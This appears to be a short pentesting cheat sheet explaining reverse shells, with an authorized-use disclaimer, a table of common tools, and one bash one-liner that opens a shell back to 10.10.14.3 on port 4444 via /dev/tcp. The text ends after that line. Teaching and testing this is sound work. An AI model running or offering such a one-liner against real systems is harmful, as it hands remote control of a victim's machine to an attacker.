 # 🎯 Reverse Shells (Initial Access)

> ⚠️ This document is for **educational and authorized testing environments only.** Do not use these techniques on systems without explicit permission.

---

## 🧠 What is a Reverse Shell?

A **reverse shell** allows a remote attacker to gain command-line access to a target machine. Instead of the attacker directly connecting to the target, the **target connects back** to the attacker’s system, evading inbound firewall rules.

---

## 🛠️ Common Payloads & Tools

| Tool            | Usage                          |
|-----------------|---------------------------------|
| `msfvenom`      | Create executable payloads      |
| `netcat`        | Basic listener/handler          |
| `ncat`          | Netcat with encryption support  |
| `powershell`    | Useful on Windows environments  |
| `bash`          | Works on Linux/Unix             |
| `python`        | Cross-platform reverse shell    |

---

## 🔧 Reverse Shell One-Liners

### 🐧 Bash (Linux)
```bash
bash -i >& /dev/tcp/10.10.14.3/4444 0>&1

